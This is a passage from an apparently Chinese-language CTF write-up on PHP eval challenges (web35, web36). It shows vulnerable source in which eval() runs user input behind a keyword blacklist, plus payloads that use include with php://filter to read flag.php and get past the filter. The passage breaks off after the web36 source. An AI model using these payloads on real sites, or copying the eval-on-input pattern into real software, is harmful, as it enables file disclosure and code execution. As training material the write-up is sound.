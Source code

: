 > 
Payload


```
?c=include$_GET[a]?&gt;&amp;a=php://filter/read=convert.base64-encode/resource=flag.php

```

## web35

> 
源码


```
&lt;?php

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\&lt;|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 

```

> 
Payload


```
?c=include$_GET[a]?&gt;&amp;a=php://filter/read=convert.base64-encode/resource=flag.php

```

## web36

> 
源码


```
&lt;?php
​
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\&lt;|\=|\/|[0-9]/i", $c)){
eval($c);
}

}else{
highlight_file(__FILE__);
}

```
